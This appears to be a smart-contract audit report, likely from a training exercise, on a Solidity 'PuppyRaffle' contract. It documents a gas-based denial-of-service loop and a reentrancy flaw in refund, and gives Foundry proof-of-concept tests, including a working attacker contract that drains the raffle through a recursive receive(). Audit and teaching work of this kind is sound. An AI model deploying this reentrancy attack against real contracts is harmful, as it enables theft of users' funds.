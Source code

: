 ### [M-#] Array in `PuffyRaffle::enterRaffle` is a potencial denial of service (DoS) attack, incrementing gas costs dor future participants

**Description:** 

The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. The longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This will cause the gas costs to increase over time. First players will have advantage on joining the raffle first.

```javascript
//@audit DoS Attack
@>        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```


**Impact:**

 The gas costs for raffle players will increase as more players join. This discourages later users from entering to a new position.
An attacker might fill up the `PuppyRaffle::players` array so no one else enters, guarenteeing themselves the win.

**Proof of Concept:**

If we have 2 sets of 100 players entering the raffle, the gas costs will be as such:

  Gas cost for the first 100 players: 6252048
  Gas cost for the second 100 players: 18068138

<details>
<summary>PoC</summary>
Place the following test into `PuppyRaffleTest.t.sol`. 

```javascript
    function test_DenialOfService() public {

        vm.txGasPrice(1);

        // First 100 players entering the raffle
        uint256 numPlayers = 100;
        address[] memory players = new address[](numPlayers);
        for(uint256 i = 0; i < numPlayers; i++) {
            players[i] = address(i);
        }

        // Check gas costs
        uint256 initialGas = gasleft();
        puppyRaffle.enterRaffle {value: entranceFee * players.length}(players);
        uint256 finalGas = gasleft();
        uint256 gasUsedFirstPlayers = (initialGas - finalGas) * tx.gasprice;
        console.log("Gas cost for the first 100 players", gasUsedFirstPlayers);

        // Second 100 players entering the raffle
        address[] memory players2 = new address[](numPlayers);
        for(uint256 i = 0; i < numPlayers; i++) {
            players2[i] = address(i + numPlayers);
        }

        // Check gas costs
        uint256 secondInitialGas = gasleft();
        puppyRaffle.enterRaffle {value: entranceFee * players.length}(players2);
        uint256 secondFinalGas = gasleft();
        uint256 gasUsedSecondPlayers = (secondInitialGas - secondFinalGas) * tx.gasprice;
        console.log("Gas cost for the second 100 players", gasUsedSecondPlayers);        
    }
```
</details>


**Recommended Mitigation:** There are a few recomendations.

1. Consider allowing duplicates. Users can still make new addresses and join the raffle. Duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address. 

2.  Consider using a mapping for duplicates. This would allow constant time lookup of wheter a user has already entered.


### [H-#] `PuppyRaffle::refund` function suffers from a possible reentrancy attack that will drain all the contract balance.

**Description:**

As the name implies `PuppyRaffle::refund` gives a chance for a player to withdraw his entrance fee. As the contract in not following best practices, for example using Checks - Effects - Interactions, this gives the opportunity for a malicious contract to be the msg.sender of the call to `PuppyRaffle::refund`. As the code only checks for the player index, the malicious contract can be a player of the raffle, making a call to refund. If the attacker contract has a receive function that calls refund again, this loop would eventually drain the Puppy Raffle balance.


Vulnerability:
````` javascript
// @audit -> Reentrancy Attack
@>    function refund(uint256 playerIndex) public {

        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }

`````

**Impact:**

The malicious contract can eventually drain all the contract funds by calling refund repeatedly.
 This would make all players to loose their balance, stored in the contract.

**Proof of Concept:**

<details>
<summary>PoC</summary>
Place the following attack contract test and test for the attack into `PuppyRaffleTest.t.sol`. 

```javascript

contract Reentrancy {

    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        uint256 index = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(index);
        
    }

    receive() external payable {
        if(address(puppyRaffle).balance >= entranceFee) {
            uint256 index = puppyRaffle.getActivePlayerIndex(address(this));
            puppyRaffle.refund(index);
        }

    }

}

```
</details>

Note: Someone calls the attack function on this contract, that will make it join the raffle and then ask for a refund.
    When the Puffy Raffle send the refund to this contract, it will trigger the receive function that will call refund again, before updating the raffle players mapping, until the contract has no more funds left.

<details>

```javascript
    function test_reentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        Reentrancy attackerContract = new Reentrancy(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startBalanceAttackContract = address(attackerContract).balance;
        uint256 raffleStartContractBalance = address(puppyRaffle).balance;

        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();

        console.log("Starting attacker contract balance", startBalanceAttackContract);
        console.log("Starting Puppy Raffle balance", raffleStartContractBalance);

        console.log("Ending attacker contract balance", address(attackerContract).balance);
        console.log("Ending Puppy Raffle balance", address(puppyRaffle).balance);

    }

```
</details>

**Recommended Mitigation:**

1. Change function structure, following CEI best practices (Checks - Effects - Interactions).

